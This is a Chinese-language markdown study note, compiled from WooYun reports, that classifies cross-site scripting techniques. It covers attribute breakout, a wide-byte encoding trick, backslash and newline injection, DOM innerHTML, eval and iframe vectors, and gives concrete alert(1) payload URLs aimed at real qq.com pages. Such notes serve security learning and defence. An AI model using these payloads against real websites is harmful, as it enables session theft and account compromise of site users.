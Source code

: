 #XSS 分类

#### 整理自乌云

- 什么都没过滤的情况
- 输出在`<script><script/>`之间的

    `new Image().src="..."` 或者 `<script>alert(1)</script>`

- 输出在html里的

    `http://xxx.com/search?word=hehe`

    ```html
    <input type="text" value="hehe">
    ```

    修改为 `http://xxx.com/search?word=hehe" onclick="alert(1)`

    则变成
    ```html
    <input type="text" value="hehe" onclick="alert(1)">
    ```

- 宽字节注入

    URL 编码简介
    
    | sp  | "   |  '  |  ,  |  ;  |  <  |  >  |  ?  |  [  |
    | --- | --- | --- | --- | --- | --- | --- | --- | --- |
    | %20 | %22 | %27 | %2C | %3B | %3C | %3E | %3F | %5B |


    |  ]  |  {  |  o  |  }  | 
    | --- | --- | --- | --- |
    | %5D | %7B | %7C | %7D |

    | newline |    [   |    ]   |  &#124; |
    | ------- | ------ | ------ | ------- |
    |  space  | \&#91; | \&#93; | \&#124; |

    
    `http://open.mail.qq.com/cgi-bin/qm_help_mailme?sid=,2,zh_CN&t=%22;alert(1);//aaaaaa`
    中 `%22` 代表 `"`, 但是最后被过滤为 `&quot;`：
    ```js
    var gsTest = "&quot;;alert(1);//aaaaaa";
    ```
    预想效果:
    ```js
    var gsTest = "";alert(1);//aaaaaa";
    ```

    当html为gbxxxx系列编码时，改为如下:
    
    `http://open.mail.qq.com/cgi-bin/qm_help_mailme?sid=,2,zh_CN&t=%c0%22;alert(1);//aaaaaa`
    
    效果： 
    ```js
    var gsTest= "宽";alert(1);//aaaaaa
    ```
    我试了在console里试了` decodeURI('%C0%5C') `等各种组合还是不明白真相...

    作者解释：至于这个漏洞的成因，和传统的宽字节漏洞并不一样。目测应该是由于过滤双引号的正则表达式写得有问题造成的。
    并不是因为%22变成了 %5c%22,而 %c0吃掉了后面的%5c （怎么吃的啊T^T）

- 反斜杠

    ```js
    location.href="........."+"&ss=aaaa"+"&from=bbb"+"&param=";//comment
    ```
    可以用反斜杠 `\` 杀死 `"`，改成
    ```js
    location.href="........."+"&ss=aaaa\"+"&from=1//"+"&param=";
    ```
    问题： "字符串"&from=1，这样是错误的，因为&符号的优先级高， ("字符串"&from)=1 是无法进行这种赋值操作，继续修改 
    ```js
    location.href="........."+"&ss=aaaa\"+"&from==1//"+"&param=";
    ```
    问题： from未定义，加一个函数定义（js会先解析定义），继续修改
    ```js
    location.href="........."+"&ss=aaaa\"+"&from==1;function from(){}//"+"&param=";
    ```
    问题： 空格被转义为了 `&nbsp;`， /**/替换空格，继续修改 
    ```js
    location.href="........."+"&ss=aaaa\"+"&from==1;alert(1);function/**/from(){}//"+"&param=";
    ```

- 换行符

    ` %0a ` 代表html中的换行，达到如下效果：
    ```js
    //我是注释，我爱洗澡，哦～哦～哦～ [我是输出]
    ```
    变成
    ```js
    //我是注释，我爱洗澡，哦～哦～哦～ [我是输出  换行符
    alert(1);//我是输出]
    ```

- DOM XSS 显示输出
    ```js
    document.getElementById('test').innerHTML = "<img src=1>";
    document.write('....');
    $('.class-name').html('...');
    ```
    `innerHTML = <script>alert(1)</script>`无法触发，只能用`<img>`
    JS的字符串中的字符可以写为 unicode编码。
    如： `<` 可以表示为 `\u003c` , `>` 可以表示为 `\u003e`
    ```js
    document.getElementById("a").innerHTML="\u003cimg src=1\u003e";
    ```
    在JS字符串里， < 不光可以写为 \u003c，还可以写为 \x3c， > 同样可以写为 \x3e, 是16进制编码

- DOM XSS 隐式输出
    ```html
    <object><param name="movie" value="aaaaa">
    ```
    `http://qt.qq.com/video/play_video.htm?sid=aaaaaa"></object><img src="1" onerror="alert(1)`

    通过隐式闭合标签进行注入，插入诸如`<img>`标签
    ```html
    <object><param name="movie" value="aaaaa"></object><img src="1" onerror="alert(1)">
    ```
    
    由于chrome已经过滤了`< >`两个符号，所以js代码过滤的是encode后的字符，相当于没过滤
    `decodeURIComponent` 的操作，会将 `%3c`, `%3e`，又变回 `<`, `>`
    
    也可以构造URL如 `http://qt.qq.com/video/play_video.htm?sid=aaaaaa%22%3E%3C/object%3E%3Cimg%20src=1%20onerror=alert(1)%3E` 以达到目的

- DOM XSS eval函数

    先看这个url: `http://kf.qq.com/search_app.shtml?key=aaaaa`
    通过在url后面加非法字符 `\` 构造 `http://http://kf.qq.com/search_app.shtml?key=aaaaa\`
    然后从控制台定位到错误代码，发现下面这段js
    ```js
    var getarg = function() {
        var url = window.location.href;
        var allargs = url.split("?")[1]; // 获得key=aaaa
        if (allargs!=null && allargs.indexOf("=")>0) {
            var args = allargs.split("&"); // 多arguments情况
            for(var i=0; i<args.length; i++) {
                var arg = args[i].split("=");
                eval('this.'+arg[0]+'="'+arg[1]+'";'); // 直接用了this调用key
                // 然后可以在页面里执行
            }
        }
    };
    ```
    通过加分号断句，让自己的xss执行，那么可以把`this.key="aaaaa";` 变成 `this.key;alert(1);//="asdas"`
    让 `arg[0]` 变成 `key;alert(1);//`，把后面的用注释断句
    构造url: `http://kf.qq.com/search_app.shtml?key;alert(1);//=aaaaa`

    chrome中 `"` 会变成 `%22` 而失效

- DOM XSS iframe

    有时候，输出还会出现在 <iframe src="[输出]"></iframe> 。
    iframe 的 src属性本来应该是一个网址，但是iframe之善变，使得它同样可以执行javascript，
    而且可以用不同的姿势来执行。这一类问题，我将其归为[路径可控]问题。
    当然上面说到的是普通的反射型XSS。有时候程序员会使用javascript来动态的改变iframe的src属性，譬如：iframeA.src="[可控的url]"; 同样会导致XSS问题

    - onload执行js
    ```html
    <iframe onload="alert(1)"></iframe>
    ```
    - src执行js
    ```html
    <iframe src="javascript:alert(1)"></iframe>
    ```
    - chrome下data协议执行代码
    ```html
    <iframe src="data:text/html,<script>alert(1)</script>"></iframe>
    ```
    - chrome下srcdoc属性，变体
    ```html
    <iframe srcdoc="&lt;script&gt;alert(1)&lt;/script&gt;"></iframe>
    ```
